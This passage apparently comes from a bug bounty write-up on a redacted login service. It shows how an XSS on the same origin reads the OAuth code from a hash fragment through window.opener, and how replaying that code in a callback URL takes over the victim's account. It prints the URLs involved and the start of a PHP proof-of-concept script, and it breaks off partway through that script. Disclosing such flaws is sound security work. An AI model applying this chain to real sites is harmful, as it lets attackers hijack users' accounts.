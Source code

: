 ```
https://login.redacted.com/identity/sso/ui/AuthorizationError?
ErrorCode=No_Oauth_State
&ErrorDescription=State+was+not+sent+back
&ProviderId=redacted
#state=CAAAAY&code=4/0Ad...&id_token=eyJh..................
```

From the `ErrorDescription` you can see the server was expecting a state parameter to be there in the query param but as the hash fragment is there and is only accessible via client side js , as they are in the hash fragment the error is shown.


Now all we need is a way to steal the hash fragment.
As our xss is in the same domain, I can easily read it. All I need is to make some relation between the error page containing code in hash and the xss page.

------------------------------


I went ahead and created a poc, which first setups the oauth url with the modified response_type , then opens the xss endpoint in a new tab using javascript's window.open (we will refer to this tab as winB), then using window.location I redirected the current page to the oauth url (we will refer this as winA).

The oauth flow takes place and the user is redirected to this url (in winA tab)

https://login.redacted.com/identity/sso/ui/AuthorizationError?ErrorCode=No_Oauth_State&ErrorDescription=State+was+not+sent+back&ProviderId=redacted#state=CAAAAY&code=4/0Ad...&id_token=eyJh..................

See the origin of winA it's login.redacted.com and the origin of winB is also login.redacted.com. As both winA and winB are of same origin, we can read the full url of winA tab. Using window.opener.document.location.hash property from the winB tab where we have xss, I can easily get the necessary paramater values eg: code . An attacker can send this to his server and then login into victim's account by just placing the retrieved state and code parameter value in this callback url:

${state} and ${code} are the place holders.

```
https://login.redacted.com/services/authcallback/google?state=${state}&code=${code}&scope=email+profile+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile+openid&authuser=0&prompt=none
```

Now the attacker just needs to make a request to this url and he will be able to login to victim's account after following the below steps.

----------------------------------

I wrote the following php script to do the above steps:

```php
<?php

$url = "https://login.redacted.com/services/auth/sso/google/";

$curl = curl_init();
curl_setopt($curl, CURLOPT_URL, $url);
curl_setopt($curl, CURLOPT_HEADER, true);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);

// The response of this url contains the oauth url in the Location header and the idccsrf cookie from the Set-Cookie header
$response = curl_exec($curl); //[1]

$header_size = curl_getinfo($curl, CURLINFO_HEADER_SIZE);
$headers = substr($response, 0, $header_size);
$body = substr($response, $header_size);

curl_close($curl);
```